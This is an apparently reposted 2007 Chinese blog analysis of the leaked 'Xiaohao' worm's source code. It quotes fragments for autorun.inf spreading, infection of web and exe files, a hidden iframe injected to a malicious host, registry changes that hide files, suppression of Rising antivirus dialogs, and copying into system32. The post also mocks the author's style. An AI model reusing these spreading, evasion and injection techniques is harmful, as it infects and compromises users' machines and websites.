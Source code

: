 ```yaml
---
title: 小浩(X14o-H4o)病毒的简单源码分析(不完全研究)
description: 2007年08月27日16:44网上最近炒得火热的小浩(Xiaohao)这个木马，在很不经意的情况下，偷到了源代码，以我这个只会DOS下简单C语言的水平，分析了一下，这个木马实在的不高明，具体详细说来。首先，是WormBegin.cpp这个源码里的：1写入Autoruninf文件BOOLCWormBegin::GRDirctory(CStringPath)  //每个盘下加auto{charff[256];............
date: 2007-09-01 13:04:27
category: 技术文章
tags: ['病毒Virus', '源码']
post_id: 144
alias: 144
ViewNums: 6126
---
```


从[中国龙组](http://www.cnxlz.com/index.php?u=263)上的朋友[小汶's blog](http://www.lzwen.cn/)上看到的,我的C语言是自学的,而且只看了几天~,只能大概看出来每段是干什么的~,没小汶看的透~这里就直接把小汶的分析给搜刮过来了~

2007年08月27日 16:44网上最近炒得火热的 小浩(Xiaohao) 这个木马，在很不经意的情况下，偷到了源代码，以我这个只会 DOS 下简单 C 语言的水平，分析了一下，这个木马实在的不高明，具体详细说来。

首先，是 WormBegin.cpp 这个源码里的：
1 写入 Autoruninf 文件
```inf
BOOL CWormBegin::GRDirctory(CString Path)    //每个盘下加auto
{
char ff[256];
GetModuleFileName(NULL,ff,sizeof(ff));
MyFileName=ff;
CString Data,AutoFile,PathName;
Data="[Autorun]
";
Data+="open=Xiaohao.exe
";
Data+="shellexecute=Xiaohao.exe
";
Data+="shell\Auto\command=Xiaohao.exe
";
AutoFile=Path;
AutoFile+="Autoruninf";
PathName=Path;
PathName+="Xiaohao.exe";
CStdioFile Auto(AutoFile,CFile::modeNoTruncate|CFile::modeWrite|CFile::modeCreate);
Auto.WriteString(Data);
Auto.Close();
if(!CopyFile(MyFileName,PathName,0))
{
     return FALSE;
}
else
{
     SetFileAttributes(PathName,FILE_ATTRIBUTE_HIDDEN);
     SetFileAttributes(AutoFile,FILE_ATTRIBUTE_HIDDEN);
     return TRUE;
}
}
/*作者QQ:********
Blog : [Http://Hi.baidu.com/](http://hi.baidu.com/)*****
不是我不想写 真正的PE感染..    哎. 可是我的结构化异常处理还没有学.. 郁闷啊 ! 只好写个垃圾virus
欢迎各位大牛. 来指导我    或者是交流
My age:15    - -!*/
```
评：这位仁兄不知道英文是几级的，目录的英文Directory都能打错。GRDirctory 这种东西可能只能是中国人才能理解吧，哦~~感染目录，中西结合，厉害厉害。

2 再看搜索感染的文件这段：
```
       if(FileName=="htm" || FileName=="html" || FileName=="asp" || FileName=="aspx" || FileName=="php" || FileName=="jsp")
       {
         Jilu(strPath);
         SetFileAttributes(strPath,FILE_ATTRIBUTE_NORMAL);
         GanRanWeb(strPath);
       }
         if(FileName=="exe")
       {
         if(Fuck.GetFileName()=="xiaohao.exe" || Fuck.GetFileName()=="XiaoHao.exe"
           ||Fuck.GetFileName()=="Xiaohao.exe")
           continue;
```
能感染的文件类型只有： htm html asp aspx php jsp 和 exe.

评：使用的方法也就是普通历遍模式，没有什么太大的特点。GanRanWeb这么函数可能也只有英文不好的人才能写得出来吧，老外肯定看不懂了。

3 记录被感染和被隐藏的文件
```
     if(!file.Open("c:\Jilu.txt",CFile::modeNoTruncate|CFile::modeWrite|CFile::modeCreate))
       return 1;
     file.SeekToEnd();
     file.WriteString(str1);
     file.Close();
     SetFileAttributes("c:\Jilu.txt",FILE_ATTRIBUTE_HIDDEN);
```
评：我在奇怪了，这个生成一个记录文件，果然作者是英文水平很差的人，LOG 都不会，哦，用拼音的 JILU，实在是厉害。不过，另外你生成一记录的话，我大概就可以根据这个记录，搞定所有被感染的文件了啊，连我去找的时间都不需要了。好玩~~

4 经典的 IFRAME 植入
```html
CString WriteBuf="
<iframe src=http://xiaohao.yona.biz/xiaohao.htm width=0 height=0></iframe>";
```
评：依然是利用MS的几个漏洞来进行感染，唉&hellip;&hellip;好老套。另外，这么明显的写出地址，估计很快就会和谐掉了吧。

我们接下继续看 XiaohaoDlg.cpp 这个吧：
1 感染盘符的搜索
```cpp
       if(ss=="A:\")
         continue;
       if(ss=="C:\")
       continue;    //跳过C盘
       if(ss=="d:\")
```
评：这个条件语句太生硬了吧，如果我盘符有B盘呢？？估计会进入死循环了吧。

2 修改注册表不让查看隐藏文件
```
char lujing[]="SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL";
HKEY hkey;
DWORD Data=0;
RegOpenKeyEx(HKEY_LOCAL_MACHINE,lujing,0,KEY_ALL_ACCESS,&hkey);
RegSetValueEx(hkey,"CheckedValue",0,REG_DWORD,(CONST BYTE*)&Data,4);
RegCloseKey(hkey);
}
```
评：这作者真的是不知道路径的英文是PATH啊~~用的方法是修改掉键值。

其它的研究：
1 CLSID方面：
```
RegCreateKey(HKEY_LOCAL_MACHINE,"SOFTWARE\Microsoft\Active Setup\Installed Components\{H9I12RB03-AB-B70-7-11d2-9CBD-0O00FS7AH6-9E2121BHJLK}"
```
评：和yksoft一致认定：这个人明显没有研究过COM编程，天下哪有这样的CLSID，活生生的硬插，CLSID格式、用字符都不对

2 对付瑞星的部分：
```
DWORD WINAPI FuckRising(
             LPVOID lpParameter     // thread data
)
{
while(TRUE)
{
     HWND hWindow;
     char lpClassName[20];
     do
     {
       hWindow = ::GetWindow(GetForegroundWindow(),GW_HWNDFIRST);
       ;;GetClassName(hWindow, lpClassName, 20);
       if(strncmp(lpClassName,"#32770",6)==0)
       {
         PostMessage(hWindow, WM_COMMAND,40027,0);
         PostMessage(hWindow, WM_COMMAND,2775,0);
         PostMessage(hWindow, WM_COMMAND,32776,0);
       }
       hWindow = ::GetWindow(hWindow, GW_HWNDNEXT);
     } while(hWindow == 0);

}
```
评：竟然这次英文没写错。哇，瑞星太厉害了，连他都知道写正确了。果然瑞星还是天下最容易被FXCK掉的杀软啊

3 写系统目录方面
```
GetModuleFileName(NULL,ff,255);
CopyFile(ff,"c:\windows\system32\exloroe.exe",NULL);
```
评：这位仁兄真的很强，连系统变量都不去识别，硬生生的往这里写。天啊，如果象我这机器里无WINDOWS目录怎么办，而且C盘没有系统，那会是什么情况发生？

4 修改WINDOWS窗口标题栏
```
::SetWindowText(hwnd,"已中毒 X14o-H4o's Virus");
```
评：经典的脑残体啊，我改了，改成了&ldquo;你的Windows已经被和谐&rdquo;
夜火评：这个不应该叫脑残体吧~,这个是黑客专用的写法,玩黑的朋友应该都知道是什么意思,就像我的xloong可以写成X1_0()||6,还不明白的朋友可以去google的黑客专用入口:http://www.google.com/intl/xx-hacker/  和普通的英文入口对比下就知道了~

这些写出来只是简单的研究一下罢了，好坏，我都不做进一步的评论了，点到为止。
大家可以根据我这些部分代码，研究一下这东西倒底怎么工作的，好在日后遇到此类玩意，怎么去解决它。

总体来说，这个程序是活活的将熊猫的DELPHI，仿作成VC的作品

